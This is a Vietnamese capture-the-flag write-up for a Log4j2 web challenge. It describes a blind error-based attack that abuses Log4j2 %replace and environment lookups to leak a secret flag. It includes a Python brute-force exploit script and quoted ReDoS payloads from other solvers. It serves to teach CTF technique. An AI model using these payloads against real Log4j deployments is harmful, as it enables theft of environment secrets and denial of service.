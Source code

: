 # LOG4J2

Bài này cũng tương tự như bài trước nhưng đối với error thì đều hiển thị `Sensitive information detected in output. Censored for security reasons.`

![blind](https://user-images.githubusercontent.com/77546253/177235566-1a0bd15b-0bb0-4d5a-a858-669e1c35f11f.png)

Vì ta đang khai thác theo hướng log4j lookup và hiện tại có được:
- kết quả của lookup là hợp lệ thì không hiển thị ra `Sensitive information detected in output. Censored for security reasons.` (có thể là `The command should start with a /.` hoặc kết quả của `System.out.println()` ...)
- ngược lại hiển thị `Sensitive information detected in output. Censored for security reasons.`

=> tìm cách khai thác theo hướng blind

Tiếp theo mình thử search để tìm cách replace một chuỗi:

![search](https://user-images.githubusercontent.com/77546253/177235600-c4040336-b397-4fd5-ad6a-c4c2c1dedb4d.png)

Tìm được `%replace`, sau khi đọc [docs](https://logging.apache.org/log4j/2.x/manual/layouts.html#:~:text=in%20the%20string%20%22**%22.-,replace,-%7Bpattern%7D%7Bregex%7D%7Bsubstitution) của nó thì có thể hiểu như sau:

Syntax: _replace{pattern}{regex}{substitution}_

-> thực hiện việc thay thế `pattern` với `substitution` theo biểu thức `regex`.

Dùng source của version 1 sau đó build local, chỉnh `<Console name="Console" target="SYSTEM_ERR">` trong `log4j2.xml` thành `<Console name="Console" target="SYSTEM_OUT">` để debug.

Sau đó test với `%replace{${env:FLAG}}{CTF}{${java:os}}`:

![error_test](https://user-images.githubusercontent.com/77546253/177235624-4551272e-6f22-4275-a892-9f842ca8b595.png)

-> throw ra error ngay lập tức bởi vì biến môi trường FLAG có chứa `CTF` vì vậy sẽ trigger replace với substitution là `${java:os}`.  `named capturing group is missing trailing '}'` cho thấy **có lẽ** là không thể dùng lookup ở `substitution` của `%replace` hoặc cách dùng của mình bị sai (điều này không quan trọng lắm bởi vì mục đích vẫn là khai thác error-based).

Nếu test với `%replace{${env:FLAG}}{CTFbla}{${java:os}}` thì:

![success_test](https://user-images.githubusercontent.com/77546253/177235689-65bf74b3-fbfe-49e8-8a40-aa4dbb83925a.png)

-> không throw error bởi vì `CTFbla` không match với biến môi trường FLAG cho nên không trigger replace với substitution.

Tóm lại ta có:
- `text=%replace{${env:FLAG}}{CTF+<right character>}{${java:os}}` -> `The command should start with a /.`
- `text=%replace{${env:FLAG}}{CTF+<wrong character>}{${java:os}}` -> `Sensitive information detected in output. Censored for security reasons.`

---

## Script exploit:

_Note: dùng `.` để thay thế cho `{` trong flag nếu không sẽ bị lỗi syntax._


```py
import requests
import string
import re

URL = "https://log4j2-web.2022.ctfcompetition.com/"

FLAG = "CTF{"

while not FLAG.endswith('}'):
    for i in string.ascii_lowercase + '-':
        trying = r"%replace{${env:FLAG}}{KNOWN}{${java:os}}".replace("KNOWN", FLAG.replace('{', '.') + re.escape(i))
        print(trying)
        r = requests.post(URL, data = {"text": trying})
        if "Sensitive" in r.text:
            FLAG += i
            print(FLAG)
            break
```

**CTF{and-you-thought-it-was-over-didnt-you}**

___

P/S: bài này intended solution của nó là ReDoS khai thác dựa vào `regex` của `%replace` lúc đầu mình cũng định làm theo hướng này nhưng sau khi test ra được blind error-based như trên thì chuyển luôn 😗.

solution của tác giả `@phiber`:

```
{"text": "/%replace{%replace{${env:FLAG}}{^.{" + str(char_count) + "}(.).*}{$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1}@}{(.*" + c + "){10}$}{}"}
```

hoặc của `@maple3142`
```
%replace{S${env:FLAG}E}{^SCTF.something((((((((((((((((((((.)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*E$}{}
```
